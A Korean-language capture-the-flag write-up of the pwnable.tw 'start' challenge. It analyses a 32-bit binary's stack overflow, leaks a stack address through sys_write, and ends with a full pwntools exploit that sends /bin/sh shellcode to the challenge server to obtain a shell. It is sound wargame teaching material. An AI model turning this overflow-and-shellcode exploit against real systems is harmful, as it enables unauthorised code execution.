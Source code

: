 ```yaml
---
layout: post
title: pwnable.tw - start Write Up
tags: [pwnable, writeup, wargame]
---
```




## Analysis

![1](https://user-images.githubusercontent.com/23413308/45689125-1bbe3300-bb8e-11e8-81ee-a584c7fd97e0.png)

32bit 리눅스 파일이고 stripped은 걸려있지 않습니다.



![2](https://user-images.githubusercontent.com/23413308/45689176-3f817900-bb8e-11e8-8325-3a8db2981354.png)

start 문제임에 걸맞게(?) 보호 기법도 아무것도 걸려있지 않네요.

스트립 되어있지 않으니 objdump를 통해 어셈을 한 번 봐봅시다.





![3](https://user-images.githubusercontent.com/23413308/45689205-5627d000-bb8e-11e8-92a8-2ec0e395c827.png)

_start와 _exit로 구성되어 있고 int 0x80 들을 보니 sys_call을 통해서 프로그램이 동작하고 있는 것 같습니다.

_start 함수에 0x804808f 부분의 호출은 0x4번 이므로 sys_write, 0x8048097 부분의 호출은 0x3번이므로 sys_read네요.

sys_write를 호출 하기 전에 push를 많이 해주는 것을 보아 저 부분에서 문자열을 push 해준 후 0x3c만큼 입력을 받는 프로그램이네요.

한 번 실행을 해봅시다.



![4](https://user-images.githubusercontent.com/23413308/45689271-87a09b80-bb8e-11e8-86d1-ea3847cd320b.png)

push 해줬던 부분은 Let's start the CTF: 부분이겠고 입력을 받은 후에는 그냥 종료되네요.

gdb를 붙여서 어떤 식으로 exploit을 할 수 있을지 봅니다.



![5](https://user-images.githubusercontent.com/23413308/45689305-9e46f280-bb8e-11e8-8a76-448dc491fa6c.png)

입력을 받은 직후인 add esp, 0x14 부분에 브레이크 포인트를 걸고 실행을 해봅시다.

stack 부분을 보면 esp+0x14에 _exit 함수의 주소가 있는 것이 보이네요. esp+0x14 후 ret 이니 _exit 함수가 호출되면서 종료되는 것 같습니다.

그러면 저 부분을 조작할 수 있으면 익스플로잇이 가능하겠군요!





![6](https://user-images.githubusercontent.com/23413308/45689363-be76b180-bb8e-11e8-82c0-04154a8d9ae0.png)

esp 부분을 보면 입력한 A가 10개 들어있고 그 다음에 0x0804809d가 있습니다. 해당 부분은 _exit의 주소네요.

저 부분을 수정하면 eip를 조종할 수 있을 것 같습니다. 그리고 바로 뒤에 0xffffd710은 stack 부분의 주소네요.

일단 eip 조종이 가능한지 확인을 해봅니다.





![7](https://user-images.githubusercontent.com/23413308/45689416-e239f780-bb8e-11e8-821e-17b715274f7f.png)

본래 _exit 주소가 있던 부분을 A로 덮었더니 eip가 0x41414141로 바뀌었습니다. 그렇다면.. 어떻게 익스플로잇을 할까요?



프로그램이 동작하는 것을 요약하면

1. 문자열을 푸시한다.
2. sys_write를 통해 푸시한 문자열을 출력한다.
3. sys_read를 통해 사용자 입력을 받는다.
4. esp+0x14 부분의 명령을 실행한다.



그렇다면 esp+0x14 부분(_exit 함수가 있는 부분)을 write를 호출하는 부분으로 덮어씌우면 stack의 주소가 sys_write를 통해 출력이 되고 sys_read가 호출이 됩니다.



![8](https://user-images.githubusercontent.com/23413308/45689499-14e3f000-bb8f-11e8-84c3-a47c5a3d9d0d.png)

이 사진을 통해 설명하면 0xffffd710 부분이 leak이 되고 현재 esp는 0xffffd710를 가리키겠죠?

read를 통해 입력을 받으면 0xffffd710 부분이 채워지게 되고 esp+0x14 부분이 eip가 됩니다.



어떻게 익스할 지 보면

1. 첫 번째 _exit를 write 주소로 바꿔서 stack_addr leak
2. leak된 주소부터 다시 똑같은 상황이 발생하므로 eip 컨트롤 가능
3. eip 컨트롤을 해준 후 뒷 부분에 shellcode를 넣고 eip가 그곳을 가리키게 하면 된다!

입니다.



설명이 너무 주저리주저리여서.. 이해가 안되시면 밑에 exploit 코드와 해당 문제의 어셈 코드 및 스택 구조를 따라가보면 이해가 되실 겁니다.



## exploit code

```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)
r.recv()
r.send("A"*20 + p32(0x08048087))

stack_addr = u32(r.recv(4))

print "stack_addr : " + hex(stack_addr)

shellcode = asm("xor ecx, ecx")
shellcode += asm("mul ecx")
shellcode += asm("push ecx")
shellcode += asm("push 0x68732f2f")
shellcode += asm("push 0x6e69622f")
shellcode += asm("mov ebx, esp")
shellcode += asm("mov al, 11")
shellcode += asm("int 0x80")

r.send("A"*20 + p32(stack_addr + 0x14) + shellcode)

r.interactive()
```



![9](https://user-images.githubusercontent.com/23413308/45689698-9b98cd00-bb8f-11e8-8cf9-10cb38621c43.png)

